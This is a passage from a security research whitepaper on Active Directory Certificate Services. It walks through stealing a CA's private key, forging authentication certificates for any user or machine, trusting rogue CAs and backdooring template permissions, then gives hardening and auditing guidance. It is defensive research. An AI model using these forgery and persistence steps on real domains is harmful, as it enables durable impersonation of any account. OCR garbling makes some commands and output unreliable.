Enterprise CAs also store CES endpoints in their AD object in the msPKI - Enrol1ment - Servers property. Certutil.exe and PSPKI can parse and list these endpoints:

C:\>certutil.exe -enrollmentServerURL -config CORPDC01.CORP.LOCAL\CORP-CORPDC01-CA Enrollment Server Url[0]: Priority 1 Authentication 2 Kerberos -- 2 AllowRenewalsOnly 0  AllowKeyBasedRenewal 0 CertUtil: -enrollmentServerURL command completed successfully. Figure 63 - Listing CES Endpoints with Certutil

Import-Module PSPKI Get-CertificationAuthority | Select Name,Enroll* | Format-List * : CORP-CORPDC01-CA Name EnrollmentServiceURI : : { EnrollmentEndpoints

#### Defensive IDs:

- Harden AD CS HTTP Endpoints PREVENT8 ●
Figure 64 - List CES Endpoints with PSPKI


# Domain Persistence


Figure 65 - Obligatory Meme

With the focus on ADFS attacks and SAML forgery that has resurfaced with the Solarwinds incident, we revisited an old pipe dream we have had for years. When an organization installs AD CS, by default, AD enables certificate-based authentication. To authenticate using a certificate, a CA must issue an account a certificate containing an EKU OID that allows domain authentication (e.g., Client Authentication). When an account uses the certificate to authenticate, AD verifies that the certificate chains to a root CA and to a CA certificate specified by the NTAuthCertificates object.

A CA uses its private key to sign issued certificates. If we stole this private key, could we forge our own certificates and use them (without a smart card) to authenticate to AD as anyone in the organization?

Spoiler: yes. And this has already been possible with Mimikatz/Kekeo for years:


#### 

I guess we should call these golden certificates?

We'll cover the general approach and Mimikatz weaponization before covering the updated and streamlined process with SharpDPAPI/ForgeCert/Rubeus that we developed.

# Forging Certificates with Stolen CA Certificates - DPERSIST1

An Enterprise CA has a certificate and associated private key that exist on the CA server itself. Also remember that in large organizations, Enterprise CAs are often separate servers from domain controllers, and often (to some peoples' surprise) not protected as Tier 0 assets. How can you tell which cert is the CA cert? Well, it will have a few characteristics:

- As mentioned, the certificate exists on the CA server itself, with its private key protected by machine DPAPI (unless the OS uses a TPM/HSM/other hardware for protection).
- The Issuer and Subject for the cert are both set to the distinguished name of the CA. ●
- CA certificates (and only CA certs) have a "CA Version" extension.
- There are no EKUs. ●

In a test lab, this is what the above looks like with Seatbelt, assuming elevation against the remote CA server:

| C:\Users\harmf@y\source\repos\GhostPack\Seatbelt\b\in\Release>Seatbelt.exe Certificates -computername=dc.theshire.local |  |  |
| --- | --- | --- |
| *   Running commands remotely against the host 'dc.theshire.local' with current user credentials |  |  |
| %&&a@@&& |  |  |
| &&&&&&&&%%, |  | 0/0/0 |
| 898 70829016 |  | & / / / / ( ( ( & % % % % + * # # # # # # # # # # # # # % % % = = % % % = = % % = = = % % = = = % % = = = % % |
| to 890/6 ** # |  | @/ / / / ( ( ( & % % % % = |
| # /o /o/o/o/o/o/o/o/o/o/ # נ |  | (0/ / / ( ( ( |
| 1 /oft /o/o/o/o/o/o/o/t # # # # /a/ott 1 # # # # # # # # # 10/0, , , , , , , , , , , , , |  | (a/ / / / ( ( < < < < < < < < < < < < < < < < < < < < < < < < < < < < |
| #####%20000############################################################################# # & 10 |  | @/ / / ( ( < < < > |
| ###### 10/0/0 |  | 0/ / / ( ( ( 200/0/2 + |
| ### 20# # 20 0 800 . |  | 0/ / / / ( ( { } { { { } { } { } { } { } { } { } { } { |
| ##### ########################## 10/010 .. |  | (00/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/0/00 |
| 1010101010 | Seatbelt | ( x/o/o/o/o/o/o/o/ ############# |
| 8%%8 & 8%% %% | v1.1.1 |  |
| #%9%%##. |  |  |
| ====== Certificates ====== |  |  |
| CertLocation |  | : \\dc.theshire.local\C$\Users\nonexistantuser\AppData\Roaming\Microsoft\SystemCertificates\My\Certificates\ |
| 116F4D2F9840FF772577D10855667A777FD8E8BC |  |  |
| Issuer | : OU=EFS File Encryption Certificate, L=EFS, CN=nonexistantuser |  |
| Subject | : OU=EFS File Encryption Certificate, L=EFS, CN=nonexistantuser |  |
| ValidDate : 10/8/2019 7:45:02 AM |  |  |
| ExpirvDate : 9/14/2119 7:45:02 AM |  |  |
| HasPrivateKey : False |  |  |
| KeyExportable : True |  |  |
| KeyContainer : 819e532f-17be-431d-8767-3cb5fe03f94b |  |  |
| Thumbprint : 116F4D2F9840FF772577D10855667A777FD8E8BC |  |  |
| EnhancedKeyUsages 2 |  |  |
| File Recovery |  |  |
| CertLocation |  | : HKLM:\Software\Microsoft\SystemCertificates\MY\Certificates\187D81530E1ADBB6B8999961EAADC1F597E606A2 |
| Issuer : CN=theshire-DC-CA, DC=theshire, DC=local |  |  |
| Subject : CN=theshire-DC-CA, DC-theshire, DC=local |  |  |
| ValidDate : 1/4/2021 10:48:02 AM |  |  |
| ExpiryDate : 1/4/2026 10:58:02 AM |  |  |
| HasPrivateKey : False |  |  |
| KeyExportable : True |  |  |
| KeyContainer |  |  |
| 187D81530F1ADBR6B8R9R961FAADC1F597E6D6A2 Thumbnrint |  |  |
| his is a Certificate Authority cert! |  |  |

Figure 66 - Enumerating CA Certificate with Seatbelt

The built-in supported way to extract this certificate private key is with certsrv.msc on the CA server:

|  |  | certsrv - [Certification Authority (Local)\theshire-DC-CA] |  |  |  |
| --- | --- | --- | --- | --- | --- |
| File Action | View Help |  |  |  |  |
| => P | 目 ਜੀ ਤੋਂ ਵ | 12 △ | 1 |  |  |
|  | Certification Authority (Local) |  | Name |  |  |
|  | theshire-DC-CA |  |  |  |  |
|  | Revoked Cer | All Tasks |  |  | Start Service |
|  | Issued Certif | View |  | ﻨﻲ | Stop Service |
|  | Pending Rec |  |  |  |  |
|  | Failed Reque | Refresh |  |  | Submit new request ... |
|  | Certificate T | Export List ... |  |  | Back up CA ... |
|  |  | Properties |  |  | Restore CA ... |
|  |  | Help |  |  | Renew CA Certificate ... |

Figure 67 - Stealing CA Certificate Using certsrv.msc's Backup Functionality

| Certification Authority Backup Wizard |  |  |  | × |
| --- | --- | --- | --- | --- |
| Items to Back Up |  |  |  |  |
| You can back up individual components of the certification authority data. |  |  |  |  |
| Select the items you wish to back up: |  |  |  |  |
| Private key and CA certificate |  |  |  |  |
| Certificate database and certificate database log |  |  |  |  |
| Perform incremental backup |  |  |  |  |
| Back up to this location: |  |  |  |  |
| C:\Temp\ca_backup\ |  | Browse ... |  |  |
| Note: The backup directory must be empty. |  |  |  |  |
| < Back | Next > | Cance | Help |  |

Figure 68 – Specifying the Location of the Backup in certsrv.msc

There are other ways to extract the private key besides through a CA back up. The certificate and private key are not any different crypto-wise from other machine certificates, so if we get elevated code execution on the CA server, we can steal them like we did other machine certs/keys (again, assuming the private key is not hardware protected). One can do this using the


Mimikatz syntax mentioned the "User Certificate Theft via DPAPI – THEFT2" section of this paper, or with SharpDPAPI using the command SharpDPAPI.exe certificates /machine (as previously shown as well):

| Folder : C:\ProgramData\Microsoft\Crypto\Keys |  |
| --- | --- |
| File | : 3c038547224467ad435fc98822f8d361 913d87df-e472-4769-83f2-c7ff33e9b010 |
| Provider GUID : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb} |  |
| Master Key GUID : {d7f147c5-aaf9-4480-adc1-3d7d97937a3a} |  |
| Description : Private Key |  |
| algCrypt = = = : CALG AES 256 (keyLen 256) |  |
| algHash algust : CALG SHA 512 (32782) |  |
| Salt | : c3f5ebcdce6894330e79d7247bd2b23dd311d46b73c6a1d57a29ecf14150c101 |
| HMAC | : af91b88f6e9b81da1c0015d567916c3aeb9bba5e6b5be36b97c6621785dcc711 |
| Unique Name : theshire-DC-CA |  |
| : 187D81530E1ADBB6B8B9B961EAADC1F597E6D6A2 Thumborint |  |
| Issuer : CN=theshire-DC-CA, DC=theshire, DC=local |  |
| Subject : CN=theshire-DC-CA, DC=theshire, DC=local |  |
| Valid Date : 1/4/2021 10:48:02 AM |  |
| Expiry Date : 1/4/2026 10:58:02 AM |  |
| [*] Private kev file 3c038547224467ad435fc98822f8d361 913d87df-e472-4769-83f2-c7ff33e9b010 was recovered: |  |
| -- BEGIN RSA PRIVATE KEY ---- |  |
| MIIEowIBAAKCAQEA30vLvStxQGXP0MKFuEpWnJmm6gp92nq0EfJM33DEb6Jec7Q0 |  |
| KKfmLf/BwHUYpLxIAaKI06wAwGLRVBWERyusAVlF4hBe8zoQNl8mj+xCvKHOHpm1 |  |
| 85hM8Dr3179hk1V1AlromSNg2Ma0vTRzwnYmNFBM7PvNdXPDaFMgoPotQE2ZtfcQ |  |
| IFBmiA1/m8UmYm3ENU+cPOezX70bJg9JfcJEPZeOvwl04YtmyxnH+8rfK7rAsuFD |  |

Fiaure 69 - Stealina a CA Certificate and Private Kev with SharpDPAPI

And as before, we can then transform this . pem text into a usable .pfx with openssl as we've done previously (openssl pkcs12 - in ca.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out ca.pfx).

> Sidenote: Enter a secure password here, you don't want to leave a CA certificate lying around unprotected.

With a CA . pfx file containing the CA certificate and private key, one method to forge certificates would be to import it into a separate offline CA and use Mimikatz' crypto: : scauth function to generate and sign a certificate¹23. Alternatively, one could generate the certificate manually to ensure granular control over each field and to remove the need to set up a separate system. We took the latter approach and implemented this capability in a tool called ForgeCert224, a C# tool that takes CA root certificate and forges a new certificate for any user we specify. The resulting . pfx can be used as previously described to authenticate via SChannel or using Rubeus to get a TGT for the forged user:

-  124 


Figure 70 - Forging a New User Certificate with a Stolen CA Certificate with Tool ForgeCert

Note: The target user specified when forging the certificate needs to be active/enabled in AD and able to authenticate since an authentication exchange will still occur as this user. Trying to forge a certificate for the krbtgt account, for example, will not work.

This forged certificate will be valid until the end date specified (one year for this example) and as long as the root CA certificate is valid (recall that validity for these starts at five years but is often extended to 10+ years). This abuse also is not restricted to just regular user accounts - it will work for machine accounts as well. This means that when combined with S4U2Self, an attacker can maintain persistence on any domain machine for as long as the CA certificate is valid:



Figure 71 - Forging a New Machine Certificate with a Stolen CA Certificate

Another fun (offensive) bonus is that since we are not going through the normal issuance process, this forged certificate cannot be revoked because the CA is not aware of its existence (so CRLs do not come into play)!




ForgeCert will be released along with Certify, approximately 45 days after this paper is published.

#### Defensive IDs:

- Treat CAs as Tier 0 Assets - PREVENT1
- Monitor Certificate Authority Backup Events - DETECT3
- Detecting Reading of DPAPI-Encrypted Keys DETECT5 ●

## Trusting Rogue CA Certificates - DPERSIST2

Recall the NTAuthCertificates object covered in the "Kerberos Authentication and the NTAuthCertificates Container" section. This object defines one or more CA certificates in its cacertificate attribute and AD uses it during authentication. As detailed by Microsoft125, during authentication, the domain controller checks if NTAuthCertificates object contains an entry for the CA specified in the authenticating certificate's Issuer field. If it is, authentication proceeds. If the certificate is not in the NTAuthCertificates object, authentication fails.

An alternative path to forgery is to generate a self-signed CA certificate and add it to the NTAuthCertificates object. Attackers can do this if they have control over the NTAuthCertificates AD object (in default configurations only Enterprise Admin group members and members of the Domain Admins or Administrators in the forest root's domain have these permissions). With the elevated access, one can edit the NTAuthCertificates object from any system with certutil.exe -dspublish -f C:\Temp\CERT.crt NTAuthCA126, or using the PKI Health Tool²²? . The specified certificate should work with the previously detailed forgery method with ForgeCert to generate certificates on demand.

During our testing, we also had to add the certificate to the RootCA directory services store with certutil.exe as well and were then able to get forged certificates working over SChannel. However, we were unable to get these forged certificates working for PKINIT.

Regardless, it is usually preferable for an attacker to steal the existing CA certificate instead of installing an additional rogue CA certificate128.

#### Defensive IDs:

- Treat CAs as Tier 0 Assets PREVENT1 ●
- Audit NTAuthCertificates PREVENT5 ●

128 

## Malicious Misconfiguration - DPERSIST3

The authors have done previous research on permission-based domain and host persistence, culminating in the "An ACE Up the Sleeve¹²2" whitepaper and "An ACE in the Hole: Stealthy Host Persistence via Security Descriptors130" conference talk. In these, we cover AD access control in depth, and describe how an attacker can make a malicious modification to an AD object or hostbased security descriptor as a subtle domain persistence method.

There is a myriad of opportunities for persistence via security descriptor modifications of AD CS components. Any scenario described in the "Domain Escalation" section could be maliciously implemented by an attacker with elevated access, as well as addition of "control rights" (i.e., WriteOwner/WriteDACL/etc.) to sensitive components. This includes:

- CA server's AD computer object ●
- The CA server's RPC/DCOM server ●
- Any descendant AD object or container in the container CN=Public Key Services,CN=Services,CN=Configuration,DC=<COMPANY>,DC=<COM> (e.g., the Certificate Templates container, Certification Authorities container, the NTAuthCertificates object, etc.)
- AD groups delegated rights to control AD CS by default or by the current organization (e.g., the built-in Cert Publishers group and any of its members)

For example, an attacker with elevated permissions in the domain could add the WriteOwner permission to the default User certificate template, where the attacker is the principal for the right. To abuse this at a later point, the attacker would first modify the ownership of the User template to themselves, and then would set mspki-certificate-name-flag to 1 on the template to enable ENROLLEE SUPPLIES SUBJECT (i.e., allowing a user to supply a Subject Alternative Name in the request). The attacker could then enroll in the template, specifying a domain administrator name as an alternative name, and use the resulting certificate for authentication as the DA.

The possibilities for creative access-control-based persistence in AD CS are extensive and are compounded by the fact that organizations do not currently have an effective way to audit permissions associated with certificate services. Once the BloodHound project integrates nodes and edges for AD CS defensive ACL-based auditing should be easier for most organizations.


#### Defensive IDs:

- Monitor Certificate Template Modifications - DETECT4
# PKI Architecture Flaws

# Lack of Offline Root CA and Tiered Architecture

We admittedly are not enterprise AD/PKI architects - for more complete recommendations we suggest reading Microsoft's "Securinq PKI: Planninq a CA Hierarchy" document, the multi-part guide from Ned Pyle at Microsoft titled "Designing and Implementing a PKI-34, or Brian Komar's book "Windows Server® 2008 PKI and Certificate Security132" which has sections dedicated to designing and implementing proper PKI hierarchies. We will comment on a few key points here.

Throughout this paper, we have shown that an AD CS root Certificate Authority is extremely sensitive, and organizations should protect it as much as possible. However, many organizations have single-tiered CA architectures, which introduces inherent risk due to the extreme sensitivity of a root CA. According to Microsoft's Securing PKI: Planning α CA Hierarchy133 document:

> "This one-tier hierarchy is not recommended for any production scenario because with this hierarchy, a compromise of this single CA equates to a compromise of the entire PKI."

A more complex CA architecture means that subordinate CA certificates can be revoked without having to revoke and burn down the root CA.

Most recommendations we have found state that a two-tier CA hierarchy, with a root CA and one or more "issuing" subordinate CAs, is sufficient for most organizations. Clients should not be receiving certificates directly from root CAs! Most documentation recommends that the root CA for an organization be kept offline134, where the root CA server is not connected to the company's network and is often air gapped from all networks in a controlled area. This minimizes the risk of attacker's compromising the private key which, if it occurs, means an organization needs to revoke every certificate ever issued (basically a rebuilding of the PKI infrastructure). Here is Microsoft's example of such an architecture135:



Figure 72 - Microsoft's Example Two-Tier CA Architecture

However, organizations must closely protect subordinate CAs as described in the next section.

# Unprotected Subordinate CAs

CAs that are not root CAs are known as subordinate136 CAs. In AD CS, subordinate CAs enroll by default in a template named SubCA (display name: "Subordinate Certification Authority"). The defining characteristic of this template is that it has no EKUs, indicating that it is a subordinate CA. The default validity period of this template is 5 years, the same as a root CA certificate. The root CA signs the subordinate CA certificate, and then AD CS adds the subordinate CA to the NTAuthCertificates and configures it as an Enterprise CA for the Forest. Recall that AD uses CA certificates defined in the NTAuthCertificates AD object's cacertificate attribute to validate smart card/Kerberos PKINIT authentication. As such, a subordinate CA can sign certificates that allow for domain authentication.

Translation? Certificates issued by subordinate CAs - assuming the issued certificate has an EKU allowing for domain authentication - can authenticate users to AD. Therefore, AD privilege escalation is possible if a low privileged attacker can enroll in the SubCA template or any other template that does not define EKUs (as outlined in the Misconfigured Certificate Templates - ESC2 section). Similarly, if the subordinate CA publishes misconfigured certificate templates, AD compromise is possible using the aforementioned escalation techniques.

Beyond that, an attacker can use subordinate CA private keys to forge working domain authentication certificates if a CRL is specified in the forged certificate. This is because during certificate validation, AD CS performs revocation checks against every certificate in the chain below the root CA.

r-2012-r2-and-2012/hh831574(v=ws.11)#subo

Taken all together, this means that organizations should treat subordinate CAs as Tier 0 assets just like root CAs. Unfortunately, many third-party vendors - particularly network appliances that perform HTTPS interception - advocate for a subordinate CA certificate for the border device to "work properly". Their documentation actively promotes this: ZScaler137, Palo Alto138, Fortinet139, SonicWall140, Digital Scepter441, Forcepoint442, and more. This introduces potential leakages of a subordinate CA certificate and means that these devices now must be considered Tier0 assets as well.

There is a better way. Organizations can setup CA constraints•••, restrictions that constrain the types of certificates that a subordinate CA can issue. The Microsoft post "HTTPS Inspection and your PKI" 144 recommends this approach. Microsoft also states:

> "A typical subordinate CA can issue an end entity certificate for "ANY" purpose. Applyinq Application Policy allows restriction on the Enhanced Key Usage for certificates issued by a subordinate."145

Keyfactor also has a great post titled "Restricting SSL Intercept and Proxy Sub CA Certificates" 146 which describes why, and how, to implement this type of restriction, concluding with the following:

> "If you need a Sub CA certificate for an SSL Intercept or Proxy application, consider resigning the CSR to apply policy, a path length restriction, and an EKU restriction to prevent the application from generating certificates with usages beyond what is necessary. "

# Breaking Forest Trusts via AD CS

We have done a fair amount of security research on AD domain trusts147, including receiving a CVE for our work on breaking the forest trust boundary148. AD CS introduces a set of

misconfiguration opportunities and architectural designs that can compromise the security boundary of an AD forest.

## CAs Trusts Breaking Forest Trusts

The Microsoft documentation "AD CS: Cross-forest Certificate Enrollment with Windows Server 2008 R2"149 details how to set up a PKI infrastructure that allows "…enterprises to deploy a central PKI in one Active Directory Domain Services (AD DS) forest that issues certificates to domain members in other forests." As professionals who have assessed the security of countless AD environments over the past several years, this concept causes us a lot of concern.

Microsoft defines AD forests as security boundaries¹50, meaning that principals external to the forest should not be able take control away from administrators within the forest. Organizations using a CA architecture that intentionally bridges this security boundary should do so with a huge amount of care to prevent cross-forest compromise.

Microsoft's implementation documentation¹54 recommends setting up a resource forest with one centralized AD CS instance that serves additional other account forests, providing these forests with enrollment services. This is architecturally similar to the Enhanced Security Admin Environment (ESAE, a.k.a. "red forest") secured forest architecture, where one secured forest handles various security administration tasks for other forests, though a two-way forest trust is recommended here in the AD CS scenario instead of one-way trusts. Of note, EASE has now been retired152 in preference for cloud-based solutions, but retired recommendations do not mean these architectures do not still exist.

The setup for cross-forest enrollment is relatively simple. Administrators publish the root CA certificate from the resource forest to the account forests and add the enterprise CA certificates from the resource forest to the NTAuthCertificates and AIA containers in each account forest153. To be clear, this means that the CA in the resource forest has complete control over all other forests it manages PKI for. If attackers compromise this CA, they can forge certificates for all users in the resource and account forests, breaking the forest security boundary.

## Foreign Principals With Enrollment Privileges

Another thing organizations need to be careful of in multi-forest environments is Enterprise CAs publishing certificates templates that grant Authenticated Users or foreign principals (users/groups external to the forest the Enterprise CA belongs to) enrollment and edit rights. When an account authenticates across a trust, AD adds the Authenticated Users SID to the authenticating user's token… Therefore, if a domain has an Enterprise CA with a template that grants Authenticated Users enrollment rights, a user in different forest could potentially enroll in the template. Similarly, if a template explicitly grants a foreign principal enrollment rights, then a cross-forest access-control relationship gets created, permitting a principal in one forest to enroll in a template in another forest. Ultimately both these scenarios increase the attack surface from one forest to another. Depending on the certificate template settings, an attacker could abuse this to gain additional privileges in a foreign domain.

# Defensive Guidance

We have covered a lot of ground on the offensive side. We are going to do our best to cover defensive advice we know of, starting with preventative guidance and then moving into detective measures and incident response recommendations.

At a high level, security and IT infrastructure teams should work together to build prevention, detection, and response playbooks around AD CS, ideally before setting up AD CS and integrating it into an AD environment. We have found that there is a general lack of knowledge surrounding the security implications of AD CS, and many teams would not know how to properly respond to compromises involving AD CS. We recommend planning and performing active response exercises for as many of the compromises as possible that have been detailed in this paper and consider detailed table-top exercises for response actions that would likely disrupt business operations (like rotating a root CA's private key).

As previously mentioned, we have broken out each preventative and detective action with IDs like the attack technique breakouts. At the end of each section describing a defensive action, the associated attack IDs are listed, just like the defensive IDs being listed at the end of attack description sections. We have broadly grouped the recommendations into preventative actions (PREVENT#) and detective actions (DETECT#).

We also highly recommend the book "Windows Server 2008 - PKI and Certificate Security455" for understanding, architecting, and securing Windows PKI systems.

# Preventive Guidance

For general preventative advice from Microsoft, see their "AD CS Security Guidance"156 and the "Securing PKI: Technical Controls for Securing PKI"157 documents, and the "Windows Server 2008 PKI and Certificate Security158" book for more complete guidance.

## Treat CAs as Tier 0 Assets - PREVENT1

Organizations should treat CA servers as a Tier 0 assets, securing it just as they would a domain controller. While many AD architects would think this is obvious, during our assessment of real

networks, we have noticed that many organizations do not treat CAs with the same sensitivity and they absolutely should be.

This extends beyond just the root CA. Recall from the Unprotected Subordinate CAs section that certificates issued by subordinate CAs, assuming the issued template allows for domain authentication, can be used to authenticate to the KDC in the domain. So, administrators should protect subordinate CAs as Tier O assets, along with any appliance or host possessing a subordinate CA certificate.

More information on CA architecture is detailed in the "PKI Architecture Flaws" section.

Many of these issues can be identified through either the PSPKIAudit*59 PowerShell toolkit, or Certify160.

#### Attack IDs:

- Forging Certificates with Stolen CA Certificates - DPERSIST1
- Trusting Rogue CA Certificates - DPERSIST2

### Harden CA Settings - PREVENT2

There are various settings that organizations should audit and harden on the Enterprise CAs. These settings need to be hardened on EVERY CA that is present in an environment for effective prevention.

#### Disable EDITF ATTRIBUTESUBJECTALTNAME2

To determine if the EDITF_ATTRIBUTESUBJECTALTNAME2 flag is present in your environment, run any of the following:

- 1. PSPKIAudit:Invoke-PKIAudit
- 2. Certify: Certify.exe cas
- 3. Certutil:certutil.exe -config "CA HOST\CA NAME" -getreg "policy\EditFlags"

This may need to be run from an elevated context if the enumeration fails. If this flag is present on any CA in your environment, we recommend disabling it as soon as possible. This setting being

present means that if there is a domain-authentication-capable certificate template where approvals are not enabled, then any user who can enroll in the template can elevate to domain admin privileges. Administrators can disable this setting with the following command:

-config "CA_HOST\CA_NAME" certutil policy\EditFlags -setreg EDITF_ATTRIBUTESUBJECTALTNAME2

If you must keep this setting enabled in your environment, enable manager approvals for any certificate template that allows for domain authentication:

| UserMod Properties |  |  | 1 |
| --- | --- | --- | --- |
| Compatibility Request Handling | General | Cryptography | Key Attestation |
| Superseded Templates Extensions |  | Security | Server |
| Subject Name |  | Issuance Requirements |  |
| Require the following for enrollment: |  |  |  |
| V CA certificate manager approval |  |  |  |
| This number of authorized signatures: |  | 0 |  |
| If you require more than one signature, autoenrollment is not allowed. |  |  |  |
| Policy type required in signature: |  |  |  |
| Application policy: |  |  |  |
| Issuance policies: |  |  |  |
| Add ... |  |  |  |
| Remove |  |  |  |
| Require the following for reenrollment: |  |  |  |
| · Same criteria as for enrollment |  |  |  |
| Valid existing certificate |  |  |  |
| Allow key based renewal (*) |  |  |  |
| Requires subject information to be provided within the certificate |  |  |  |
| request. |  |  |  |
| * Control is disabled due to compatibility settings. |  |  |  |
| OK Cance |  | Apply | Help |

Figure 73 - Constraining Certificate Enrollments with Manager Approvals

#### Constrain Enrollment Agents

If the environment uses enrollment agents, restrict enrollment agents through the Certificate Authority MMC snap-in (certsrv.msc) by right clicking on the CA → Properties → Enrollment Agents. This allows you to restrict which principals can act as enrollment agents, and for which users/templates those agents can enroll on behalf of. For example, to only allow members of the EnrollmentAgents domain group to act as enrollment agents, where those members can only enroll in the User certificate template on behalf of members of the NewEmployees group, the configuration would be the following:

| theshire-DC-CA Properties |  |  | ? |
| --- | --- | --- | --- |
| Extensions | Storage | Certificate Managers |  |
| General | Policy Module |  | Exit Module |
| Enrollment Agents | Auditing | Recovery Agents | Security |
| For more information see Delegated Enrollment Agents. |  |  |  |
| ) Do not restrict enrollment agents |  |  |  |
| · Restrict enrollment agents |  |  |  |
| Enrollment agents: |  |  |  |
| THESHIRE\Enrollment Agents |  |  | Add ... |
|  |  |  | Remove |
| Certificate Templates: |  |  |  |
| User |  |  | Add ... |
|  |  |  | Remove |
| Pemissions: |  |  |  |
| Name THESHIRE\NewEmployees |  | Access Allow | Add ... |
|  |  |  | Remove |
|  |  |  | Deny |
| OK | Cancel | Apply | Help |

Figure 74 - Restricting Enrollment Agents through certsrv.msc


Restrict CA Server Permissions

Network defenders should also audit CA servers' permissions. They can do so by the following means:

- 1. PSPKIAudit: Invoke-PKIAudit
- 2. Certify: Certify.exe cas
- 3. MMC: Administrators can list them manually via the Certificate Authority MMC snap-in (certsrv.msc) by right clicking on the CA → Properties → Security. Organizations should restrict the "Issue and Manage Certificates" and "Manage CA" permissions to appropriate administrative groups. Attackers can abuse the "Manage CA" right to compromise the domain and can use the "Issue and Manage Certificates" right to subvert approval processes (see Vulnerable Certificate Authority Access Control - ESC7 for more information):

| theshire-DC-CA Properties ? |
| --- |
| Extensions Storage Certificate Managers |
| General Policy Module Exit Module |
| Security Enrollment Agents Auditing Recovery Agents |
| Group or user names: |
| certmanager (certmanager@theshire.local) |
| certadmin (certadmin@theshire.local) |
| Domain Admins (THESHIRE\Domain Admins) Domain Computers (THESHIRE\Domain Computers) |
| Enterprise Admins (THESHIRE\Enterprise Admins) |
| Administrators (THESHIRE\Administrators) |
| Add ... Remove |
| Pemissions for certadmin Allow Deny |
| Read |
| Issue and Manage Certificates |
| Manage CA |
| Request Certificates |
| OK Apply Help |

Figure 75 - Auditing CA Permissions through certsr

Optionally, organizations can remove the "Request Certificates" (aka Enroll) permission from groups such as Domain Users as a preventive measure against some escalation scenarios. Removing enrollment permissions at the CA level will prevent that user/group from enrolling in any certificate templates. However, it is generally advised to restrict the enrollment permissions on the template level.

#### Attack IDs:

- EDITF ATTRIBUTESUBJECTALTNAME2 ESC6 ●
- Vulnerable Certificate Authority Access Control - ESC7

### Audit Published Templates - PREVENT3

The "Certificate Enrollment" section mentioned that administrators create templates then "publish" them to an Enterprise CA. AD CS specifies that a certificate template is enabled on an Enterprise CA by adding the template's name to the certificatetemplates attribute of the Enterprise CA's AD object. You can enumerate the templates published to a CA through the Certificate Authority MMC snap-in (certsrv.msc), expanding a CA and clicking on "Certificate Templates":

|  |  |  | certsrv - [Certification Authority (Local)\theshire-DC-CA\Certificate Templates] |  |
| --- | --- | --- | --- | --- |
| File | Action | View Help |  |  |
|  | 2 | 11 3 12 |  |  |
|  | Certification Authority (Local) |  | Name | Intended Purpose |
| T | theshire-DC-CA |  | Computer2 | Client Authentication |
|  |  | Revoked Certificates | VulnTemplate | Client Authentication, Secure Email, En ... |
|  |  | Issued Certificates | Enrollment Agent | Certificate Request Agent |
|  |  | Pending Requests | 圆 User2 | Smart Card Logon, Client Authentication |
|  |  | Failed Requests |  |  |
|  |  | Certificate Templates | SmartCard | Smart Card Logon |
|  |  |  | ExampleTemplate | Client Authentication, Secure Email, En ... |
|  |  |  | 园 UserMod | Client Authentication, Secure Email, En ... |
|  |  |  | Directory Email Replication | Directory Service Email Replication |
|  |  |  | Domain Controller Authentication | Client Authentication, Server Authentic ... |
|  |  |  | Kerberos Authentication | Client Authentication, Server Authentic ... |

Figure 76 - Enumerating Published Certificate Templates for a CA

The following commands can enumerate templates published by an Enterprise CA:

- Certify: ●
	- Certify.exe cas List Enterprise CAs, including published templates: O
	- Certify.exe find-Showallpublished templates: O

- Certutil:Certutil.exe -TCAInfo [DC=COMPANY,DC=COM] ●
Administrators should remove unused templates from publication on every CA in the environment to lower the attack surface and opportunities for accidental misconfiguration.

#### Attack IDs:

- Misconfigured Certificate Templates ESC1 ●
- Misconfigured Certificate Templates - ESC2
- Misconfigured Enrollment Agent Templates - ESC3
- Vulnerable Certificate Template Access Control ESC4 ●
- EDITF ATTRIBUTESUBJECTALTNAME2 ESC6 ●
- Vulnerable Certificate Authority Access Control ESC7 ●

### Harden Certificate Template Settings - PREVENT4

As described extensively in the "Domain Escalation" section, there are various combinations of certificate template settings that can result in domain escalation. To audit these settings, run any of the following commands and analyze the permissions and configuration of each published certificate template:

- PSPKIAudit: Invoke-PKIAudit ●
- Certify: ●
	- o Certify.exe find [/hideAdmins]-Display publishedtemplates:
	- o Certify.exe find /vulnerable [/hideAdmins] Display published templates that potentially could result in domain escalation
- Certutil: .
	- certutil.exe -TCAInfo Display published templates O
	- certutil.exe -v -dsTemplate Display template permissions O

| [ ! ] Potentially vulnerable Certificate Templates: |  |
| --- | --- |
| CA | : dc.theshire.local\theshire-DC-CA |
| Name : User2 |  |
| OID | : User2 (1.3.6.1.4.1.311.21.8.10395027.10224472.4213181.15714845.1171465.9.13801022.2350065) |
| VulnerableTemplateACL : True |  |
| SensitiveTemplateSettings : False |  |
| LowPrivCanEnroll : False |  |
| EnrolleeSuppliesSubject : False |  |
| EnhancedKeyUsage | Smart Card Logon (1.3.6.1.4.1.311.20.2.2) Client Authentication (1.3.6.1.5.5.7.3.2) |
| HasAuthenticationEku : True |  |
| HasDangerousEku : False |  |
| CAManagerApproval : False |  |
| IssuanceRequirements | :  Issuance Requirements |
|  | Authorized signature count: 0 |
|  | Reenrollment requires: same criteria as for enrollment. |
| ValidityPeriod | : 2 years |
| RenewalPeriod | : 6 weeks |
| Owner | : THESHIRE\localadmin |
| DACL | : NT AUTHORITY\Authenticated Users (Allow) - Read, Write |
|  | THESHIRE\Domain Admins (Allow) - Read, Write, Enroll |
|  | THESHIRE\Domain Users (Allow) - Read, Write, FullControl |
|  | THESHIRE\Enterprise Admins (Allow) - Read, Write, Enroll |
| CA | : dc.theshire.local\theshire-DC-CA |
| Name | : VulnTemplate |
| OID | : VulnTemplate |
|  | (1.3.6.1.4.1.311.21.8.10395027.10224472.4213181.15714845.1171465.9.7077331.7158979) |
| VulnerableTemplateACL : False |  |
| SensitiveTemplateSettings : True |  |
| LowPrivCanEnroll : True |  |
| EnrolleeSuppliesSubject : True |  |
| EnhancedKeyUsage | : Client Authentication (1.3.6.1.5.5.7.3.2) Secure Email (1.3.6.1.5.5.7.3.4) Encrypting File |
|  | System (1.3.6.1 4. 3.4) |
| HasAuthenticationEku : True |  |
| HasDangerousEku : False |  |
| CAManagerApproval : False |  |
| IssuanceRequirements | : [Issuance Requirements] |
|  | Authorized signature count: 0 |
|  | Reenrollment requires: same criteria as for enrollment. |
| ValidityPeriod | : 3 years |
| RenewalPeriod | : 6 weeks |
| Owner | : THESHIRE\localadmin |
| DACL | : NT AUTHORITY\Authenticated Users (Allow) - Read |
|  | THESHIRE\Domain Admins (Allow) - Read, Write, Enroll |
|  | THESHIRE Domain Users (Allow) - Enroll |
